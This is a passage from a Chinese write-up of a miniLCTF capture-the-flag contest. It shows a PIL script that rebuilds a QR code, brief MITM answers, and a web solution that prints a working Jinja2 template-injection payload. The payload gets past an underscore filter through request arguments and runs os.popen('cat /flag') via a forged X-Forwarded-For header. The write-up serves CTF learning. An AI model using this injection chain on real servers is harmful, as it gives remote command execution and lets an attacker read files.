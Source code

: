 将得到的**res.txt**删去开头和结尾多余的部分，PIL库画图

```python
from PIL import Image

img = Image.new('RGB', (400, 400), (0, 0, 0))
f = open('res.txt','r')
while 1:
	a = f.readline()
	if a:
		x, y = a[7:].split(' ')
		x = int(x)
		y = int(y)
		img.putpixel((x, y), (255, 255, 255))
	else:
		break

img.save('flag.png')
```

得到一个二维码，扫码得到flag：`miniLCTF{mAst3R_0F_v0Lat1l1tY!}`

![image-20200512172424027](https://i.loli.net/2020/05/12/2drUiZlpCwg1LQn.png)

### MITM_0 | Author：Ga1@xy

第一反应就是用ip去试，第二个ip就对了：192.168.1.152

### MITM_1 | Author：Ga1@xy

翻了一遍流量包里的certificate，一共就五种CA，查了相关的资料，然后连蒙再猜（最开始base64还有点问题），也相当于是试出来了：Liuyukun CA

## WEB

### Personal_IP_Query | Author：Ga1@xy

本题考点为[ssti注入](https://xz.aliyun.com/t/3679#toc-1)，而且过滤了双下划线`__`，百度过滤后的注入方法，先构造get请求

```
?c=__class__&b=__bases__&s=__subclasses__&i=__init__&g=__globals__&bt=__builtins__&d=__import__('os').popen('cat /flag').read()
```

再伪造ip利用ssti漏洞进行注入

```
X-Forwarded-For: {{[][request.args.c][request.args.b][0][request.args.s]()[76][request.args.i][request.args.g][request.args.bt].eval(request.args.d)}}
```

得到flag

![image-20200509183253437](https://i.loli.net/2020/05/09/gUiK4hRSFNz1QXk.png)

### id_wife | Author：Ga1@xy
